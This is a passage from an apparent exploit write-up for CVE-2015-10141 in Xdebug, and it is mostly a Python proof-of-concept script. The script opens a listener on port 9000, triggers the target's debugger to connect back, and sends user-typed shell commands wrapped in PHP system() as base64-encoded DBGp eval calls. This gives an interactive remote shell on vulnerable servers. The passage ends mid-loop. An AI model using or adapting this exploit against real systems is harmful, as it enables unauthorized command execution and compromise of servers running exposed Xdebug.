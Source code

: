 We create a script that will listen on localhost:9000 and grant us an interactive shell. You can find my Proof-of-Concept also on my [GitHub](https://github.com/n0m4d22/PoC-CVE-2015-10141-Xdebug)!

```python
import base64
import re
import socket
import subprocess

# Process the response
def parse_xdebug_response(data):
   # Separate received data for decoding
   match = re.search(r'<!\[CDATA\[(.*?)\]\]>', data)
   if match:
      encoded_data = match.group(1)
      try:
         # Return decoded response
         return base64.b64decode(encoded_data).decode('utf-8')
      except (base64.binascii.Error, UnicodeDecodeError):
         return "An error occured while decoding the base64 data."
   return "No XML response was found."

# Create the interactive shell
def xdebug_shell(host, port, init):
   try:
      # Create a new socket
      sk = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      sk.bind((host, port))
      sk.listen(1)
      print(f"[*] Connecting to {host}:{port} ...")
      
      # Create a subprocess to connect on Xdebug host.
      print(f"[*] Initializing debugging: {init}")
      subprocess.Popen(init, shell=True, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
      
      # Establish the connection
      connection, address = sk.accept()
      print(f"[*] Connection to {address} established.")
   except socket.error as e:
      print(f"[-] Connection failed: {e}")
      return
   except subprocess.CalledProcessError as e:
      print(f"[-] An error occurred while connecting to Xdebug: {e}")
      return

   # Fetch the initial response from the server
   initial_response = connection.recv(4096).decode('utf-8')

   while True:
      try:
         # Enter command as user input 
         command_input = input('$ ')
         # Try again if no input was provided to avoid breaking the script
         if not command_input:
            continue
            
         # Parse the command to Xdebug (PHP system() call) function
         php_command = f'system("{command_input}")'
         encoded_command = base64.b64encode(php_command.encode('utf-8')).decode('utf-8')
         full_command = f"eval -i 1 -- {encoded_command}\x00".encode('utf-8')
            
         # Send the command to the server
         connection.sendall(full_command)
         # Fetch the response from the server
```